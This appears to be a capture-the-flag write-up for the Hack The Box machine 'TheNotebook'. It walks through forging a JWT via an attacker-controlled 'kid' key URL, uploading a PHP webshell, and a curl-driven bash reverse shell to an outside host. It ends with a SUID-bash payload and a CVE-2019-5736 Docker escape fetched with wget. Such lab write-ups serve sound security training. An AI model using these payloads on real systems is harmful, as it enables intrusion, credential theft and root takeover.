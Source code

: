 # [TheNotebook](https://app.hackthebox.com/machines/TheNotebook)

```bash
nmap -p-  --min-rate 5000 10.10.10.230 -Pn
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan here.

```bash
nmap -A -sC -sV -p22,80 10.10.10.230 -Pn
```

![alt text](img/image-1.png)


Let's access web application which I create account named as `dr4ks`.

![alt text](img/image-2.png)

I can see dashboard as below.

![alt text](img/image-3.png)


Let's do `Directory Enumeration` via `gobuster` command.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 40 -u http://10.10.10.230/
```

put image here.


While I want to access `/admin` endpoint, it says that `Forbidden`.

![alt text](img/image-4.png)


I came back to dashboard and look at cookies.

![alt text](img/image-5.png)


I take `auth` cookie which is probably `JWT Token`, let's copy and paste into [jwt.io](https://jwt.io).

![alt text](img/image-6.png)


One important flag is here to check `admin` users, just `user_data` which we need to inject into `admin_cap` parameter.

So I will just change `0` into `1` value for `admin_cap` parameter.

Another thing is important for `Signature` that, we need to add private key file here to open this web page on our browser.

Also from `Header` value, we need to change `kid` value to our http.server to get our private key file.


Let's start Hijacking of `JWT Token`.


First, we need to change `Header` value of `JWT Token` as because `kid` value should be our http.server.

![alt text](img/image-9.png)


Header Data:
```bash
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC44OjgwODAvcHJpdi5rZXkifQ==
```

Second,we need to change value of `admin_cap` parameter.

![alt text](img/image-7.png)


Payload Data:
```bash
eyJ1c2VybmFtZSI6ImRyNGtzIiwiZW1haWwiOiJkcjRrc0BnbWFpbC5jb20iLCJhZG1pbl9jYXAiOjF9
```


Next, we need to generate our machine's private key file via `openssl` command.
```bash
openssl genrsa -out priv.key 2048
```

![alt text](img/image-8.png)


Let's do `JWT Encoding` for our data.

![alt text](img/image-10.png)


And, we need to open http.server to serve our `priv.key` file. So that target machine can get our `priv.key` file from our http.server.

![alt text](img/image-12.png)


While we paste this data into `auth` cookie, we are already can see `Admin Panel`.

![alt text](img/image-11.png)


I can see `File Upload` for `Admin Panel`.

![alt text](img/image-13.png)


Let's upload one test file into here, but we cannot see file itself.

![alt text](img/image-14.png)


Let's upload `php webshell`.

![alt text](img/image-15.png)


Without any validation, I uploaded `.php` file and it can be easily triggered by website, as a result, I can run system commands.

![alt text](img/image-16.png)


Let's add `reverse shell` as `URL-Encoded` into here via `curl` command.

```bash
curl --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.8/1337 0>&1'" -G -s http://10.10.10.230/a1ba6293840f8a8fb4d5dda74c98c90a.php
```

![alt text](img/image-17.png)


Hola, I got reverse shell from port `1337`.

![alt text](img/image-18.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```

![alt text](img/image-19.png)


Let's enumerate machine and I found `home.tar.gz` file from `/var/backups` folder.

![alt text](img/image-20.png)

Let's download this file http.server.

![alt text](img/image-21.png)


![alt text](img/image-22.png)


While I `unzip` and extract all data from here, I found private key (id_rsa) file.

![alt text](img/image-23.png)


Let's use this private key (id_rsa) file by changing permissions into `600` and connect into machine.


user.txt

![alt text](img/image-24.png)


For `Privilege Escalation`, I just run `sudo -l` command to check privileges of this user.

![alt text](img/image-25.png)


I see `docker`, let's look at version of `docker`.

![alt text](img/image-26.png)


While I searched publicly known exploit, I find [CVE-2019-5736](https://github.com/Frichetten/CVE-2019-5736-PoC) exploit, let's use this.

![alt text](img/image-27.png)


I will change `payload` variable into malicious cmdlet which copied `/bin/bash` file and give `SUID` privilege to this copied `/bin/bash` file.

```bash
echo -e "cp /bin/bash /tmp/dr4ks\nchmod 4777 /tmp/dr4ks"
```

![alt text](img/image-28.png)


Let's build `.go` file.

```bash
go build exploit.go
```

![alt text](img/image-29.png)


Now, on target machine , we need to run below commands.

```bash
sudo docker exec -it webapp-dev01 bash
wget http://10.10.14.8:8080/exploit
chmod +x exploit
./exploit
```

![alt text](img/image-30.png)


Then, I need to open another terminal and write below commands.
```bash
sudo docker exec -it webapp-dev01 /bin/sh
```

![alt text](img/image-31.png)


As you see from output that our copied `/bin/bash` file called `dr4ks` is created.


Let's run this malicious binary `-p` flag ang got root shell.

![alt text](img/image-32.png)
